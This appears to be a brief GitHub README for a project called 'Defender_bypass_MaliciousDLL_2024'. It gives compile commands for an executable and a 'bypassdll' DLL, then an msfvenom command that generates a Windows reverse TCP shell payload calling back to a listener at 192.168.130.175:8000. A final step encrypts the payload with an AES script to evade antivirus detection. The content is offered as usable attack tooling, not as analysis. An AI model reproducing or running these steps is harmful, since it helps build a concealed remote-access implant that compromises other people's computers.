 # Defender_bypass_MaliciousDLL_2024
To compile
>x86_64-w64-mingw32-g++ --static -o test.exe process.cpp -fpermissive -lws2_32

>x86_64-w64-mingw32-g++ --static --shared -o start.dll bypassdll.cpp -fpermissive

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw > beacon.bin
>python aes.py beacon.bin
